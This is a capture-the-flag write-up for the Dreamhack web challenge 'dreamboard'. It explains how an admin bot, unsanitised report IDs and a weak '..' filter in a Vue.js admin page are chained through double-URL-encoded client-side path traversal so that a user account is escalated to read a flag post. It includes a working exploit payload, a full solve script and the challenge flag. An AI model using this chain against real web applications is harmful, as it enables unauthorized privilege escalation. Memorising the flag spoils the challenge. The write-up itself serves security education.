



## dreamboard  



We are given a webpage where we can create and report posts. There is also a restricted admin endpoint.  



The SQLite3 database is initialised with a flag post under the admin account.  

```python
def build_db(db_uri):
    session = init_db(db_uri)
    # Admin User
    b = User(username=ADMIN_USERNAME, password=ADMIN_PASSWORD, occupation='admin', level=ADMIN_LEVEL)
    session.add(b)
    session.commit()

    user = User.find_by_username(session, ADMIN_USERNAME)
    p = Post(title='flag', content=FLAG, author=user.id)
    session.add(p)
    session.commit()
```

We are only provided with the Python backend, but if we look at the HTML source, we realise that the webpage has a Vue.js frontend.  

One of the source chunks is essential to the solve, but more on that later.  

```html
<!DOCTYPE html><html><head><meta charset=utf-8><link rel=stylesheet href=static/normalize.css><title>dream board v1</title><link href=./static/css/app.dc569275dace25afdc993b306e843a98.css rel=stylesheet></head><body><div id=app></div><script type=text/javascript src=./static/js/manifest.e9311a12ab71d61a8756.js></script><script type=text/javascript src=./static/js/vendor.f2f4bc8c4876943dcb97.js></script><script type=text/javascript src=./static/js/app.58e501bd956cef9606a4.js></script></body></html>
```

The Python backend mainly consists of a Falcon + gunicorn server and an admin bot.  

The admin bot stores the admin token in `localStorage` before visiting an arbitrary post, giving it access to `/api/admin` and its sub-endpoints.  

```python
#!/usr/bin/env python3.8
from selenium import webdriver
from requests import get, post
from config import *
from time import sleep

options = webdriver.ChromeOptions()
options.add_argument('--headless')
options.add_argument('--no-sandbox')
options.add_argument('--disable-dev-shm-usage')

driver = webdriver.Chrome('/chromedriver', options=options)
driver.implicitly_wait(3)
driver.set_page_load_timeout(3)
driver.get('http://127.0.0.1:80/')

HOST = 'http://127.0.0.1:8000'

def get_token(username, password):
    url = f'{HOST}/user/token'
    c = post(url, json={'username': username, 'password': password})
    return c

def report_list(token):
    url = f'{HOST}/admin/report/list'
    c = get(url, headers={'Authorization': f'JWT {token}'})
    return c

def admin_report_set(token, report_id, msg):
    url = f'{HOST}/admin/report/set'
    c = post(url, headers={'Authorization': f'JWT {token}'}, json={'id': report_id, 'msg': msg})
    return c

c = get_token(ADMIN_USERNAME, ADMIN_PASSWORD)
token = c.json()['msg']['token']

# {"error": false, "msg": [{"id": 3, "post_id": "3", "msg": ""}, {"id": 4, "post_id": "7", "msg": ""}]}

while True:
    c = report_list(token)
    reports = c.json()['msg']
    if len(reports) == 0:
        print('no reports found, sleep for 5 seconds')
        sleep(5)

    for report in reports:
        post_id = report['post_id']
        report_id = report['id']
        print(f'check report.. {report_id} => {post_id}')
        try:
            driver.execute_script(f"localStorage.setItem('token', '{token}');")
            driver.get(f'http://127.0.0.1:80/board/{post_id}')
            admin_report_set(token, report_id, 'checked')
        except:
            driver.get(f'http://127.0.0.1:80/')
            admin_report_set(token, report_id, 'error occured')

        sleep(1)
```

The Falcon server has quite a few endpoints, but the ones that are of most importance to us are `/api/post/read`, `/api/post/report` and `/api/admin/user/set`.  

```python
### USER Router ###
api.add_route('/user/token', UserSignInResource()) # POST
api.add_route('/user/signup', UserSignUpResource()) # POST
### END ###

### POST Router ###
api.add_route('/post/list', PostListResource()) # GET
api.add_route('/post/read', PostReadResource()) # GET
api.add_route('/post/write', PostWriteResource()) # POST
api.add_route('/post/report', PostReportResource()) # GET
### END ###

### ADMIN ROUTER ###
api.add_route('/admin/report/list', ReportListResource()) # GET
api.add_route('/admin/report/set', ReportCheckResource()) # POST
api.add_route('/admin/user/get/{occupation}', AdminUserSearchOccupation()) # POST
api.add_route('/admin/user/set/{level}', AdminUserSetLevel()) # POST
### END ###
```

`/api/post/report` gets the admin bot to visit `http://127.0.0.1:80/board/<post id>` using a supplied `id` URL parameter.  

The important part is that `id` is not sanitised, meaning we can perform path traversal with `../` to get requests to arbitrary endpoints on the server.  

```python
class PostReportResource:
    def on_get(self, req, resp):
        user = req.context['user']
        if 'id' in req.params:
            post_id = req.params['id']
            try:
                post = Post.find_by_id(self.session, re.match("^\d+", post_id).group(0))
            except NoResultFound:
                resp.media = error('no post')
                return
            except:
                resp.media = error('no post')

            if post.author == user['user_id'] or user['level'] == ADMIN_LEVEL:
                # reporting process
                try:
                    report = Report.find_by_author(self.session, user['user_id'])
                    now = datetime.datetime.utcnow()
                    if (report.report_time + datetime.timedelta(0, RATE_LIMIT_DELTA)).time() > now.time():
                        resp.media = error('rate limit reached')
                        return
                except NoResultFound:
                    pass

                report = Report(post=post_id, author=post.author)
                self.session.add(report)
                self.session.commit()
                resp.media = result('success')
            else:
                resp.media = error('permission denied')
        else:
            resp.media = error('id')
```

`/api/post/read` checks the user account level before giving access to a post. To be able to read the flag post, we have to somehow escalate our user account from level `1` to level `2`.  

```python
USER_LEVEL = 1
FLAG_USER_LEVEL = 2
ADMIN_LEVEL = 3

...

class PostReadResource:
    def on_get(self, req, resp):
        user = req.context['user']
        if 'id' in req.params:
            post_id = req.params['id']
            try:
                post = Post.find_by_id(self.session, re.match("^\d+", post_id).group(0))
                if post.author == user['user_id'] or\
                        (user['level'] == FLAG_USER_LEVEL and post.author == 1) or user['level'] == ADMIN_LEVEL:
                    rp = {"title": post.title, "content": post.content}
                    resp.media = result(rp)
                else:
                    resp.media = error('permission denied')
            except NoResultFound:
                resp.media = error('no post')
            except:
                resp.media = error('no post')
        else:
            resp.media = error('id')
```

The endpoint that provides any escalation functionality is `/api/admin/user/set`, which requires admin privileges to access.  

We need to somehow be able to make a `POST` request to `/api/admin/user/set/2?username=<username>` to escalate our privileges.  

```python
class AdminUserSetLevel:
    def on_post(self, req, resp, level):
        user = req.context['user']
        if not user['level'] == ADMIN_LEVEL:
            resp.media = error('permission denied')
            return

        if 'username' not in req.params:
            resp.media = error('no id')
            return

        if int(level) not in [USER_LEVEL, FLAG_USER_LEVEL]:
            resp.media = error('level error')
            return

        username = req.params['username']
        try:
            user = User.find_by_username(self.session, username)
            if user.level == ADMIN_LEVEL:
                resp.media = error('you cannot change admin\'s level')
                return

            user.level = level
            self.session.add(user)
            self.session.commit()
            resp.media = result('success')
        except NoResultFound:
            resp.media = error('no such user')
```

Going back to the Vue.js frontend, if we inspect the `./static/js/app.58e501bd956cef9606a4.js` chunk, we can see the vulnerability.  

When the `/admin` endpoint is visited, it allows us to supply an `occupation` URL parameter, which is directly prepended to `/admin/user/get/` and a `POST` request is made to it. The only protection in place is a weak filter against `..`.  

If we use double URL-encoding and pass `occupation` as `%25%2E%25%2E%25set/2?username=<username>`, `decodeURIComponent()` will decode it to `%2E%2Eset/2?username=<username>`, bypassing the filter. The `POST` request will then auto-normalise to `../set/2?username=<username>`, escalating our account privileges.  

```js
case 0:
    if (e = void 0, t.prev = 1, e = decodeURIComponent(location.search.split("?")[1].split("occupation=")[1].split("&")[0]), -1 === e.indexOf("..")) {
        t.next = 6;
        break
    }
    return alert("no"), t.abrupt("return");
case 6:
    t.next = 11;
    break;
case 8:
    t.prev = 8, t.t0 = t.catch(1), e = "student";
case 11:
    console.log("/admin/user/get/" + e)
    return console.log("occupation", e), t.next = 14, c.a.post(u.a.getHost() + "/admin/user/get/" + e, {}, {
        headers: {
        Authorization: "JWT " + localStorage.getItem("token")
        }
    }).then(function(t) {
        var e = t.data;
        if (!e.error) return e.msg;
        alert("server error!\n" + e.msg), location.href = "/"
    }).catch(function(t) {
        console.log("sever error", t), alert("server error!\n"), location.href = "/"
    });
```

This gives us the full payload, which exploits the server-side path traversal in the admin bot, then abuses the client-side path traversal in the Vue.js frontend to finally escalate our account's privileges.  

```
/api/post/report?id=2/../../admin?occupation=%252E%252E/set/2?username=<username>
```

After reporting our payload, logging out and logging in again will allow us to read the flag post in `/board/1`.  



Below is my full solve script for this challenge.  

```python
import requests
from urllib.parse import quote

url = 'http://host8.dreamhack.games:11187'
s = requests.Session()

# login
creds = {
    'username': 'hacked',
    'password': 'hacked'
}

res = s.post(f'{url}/api/user/signup', json=creds)
res = s.post(f'{url}/api/user/token', json=creds)

token = res.json()['msg']['token']

print("> Token:", token)

s.headers.update({
    'Authorization': f'JWT {token}'
})

res = s.post(f'{url}/api/post/write', json={
    'title': 'a',
    'content': 'a'
})

assert res.json()['msg'] == 'success'
print("> Created post")

# report
cspt = '%2E%2E/set/2?username=hacked'
payload = f'2/../../admin?occupation={quote(cspt)}'

res = s.get(f'{url}/api/post/report', params={
    'id': payload
})

assert(res.json()['msg'] == 'success')
print("> Reported")
```

Flag: `DH{2c01577e9542ec24d68ba0ffb846508e}`